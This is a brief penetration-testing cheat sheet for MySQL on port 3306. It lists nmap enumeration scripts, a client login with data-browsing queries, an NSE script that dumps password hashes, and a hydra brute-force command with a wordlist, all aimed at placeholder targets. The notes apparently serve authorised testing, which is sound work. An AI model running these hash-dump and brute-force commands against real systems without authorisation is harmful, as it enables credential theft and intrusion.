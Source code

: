# MySQL (TCP/3306)

## Nmap

sudo nmap -p3306 -sV -O <TARGET_IP>
nmap -p3306 --script mysql-empty-password,mysql-info <TARGET_IP>
nmap -p3306 --script mysql-users,mysql-databases,mysql-variables --script-args "mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>

mysql -h <TARGET_IP> -u <USER> -p

show databases;
use <DB>;
show tables;
select * from <TABLE> limit 5;
Hash dump / query via NSE

nmap -sV -p3306 --script mysql-dump-hashes --script-args "username='<USER>',password='<PW>'" <TARGET_IP>
nmap -p3306 --script mysql-query --script-args \
"query='select version();',username='<USER>',password='<PW>'" <TARGET_IP>
Brute (scoped)

hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> mysql
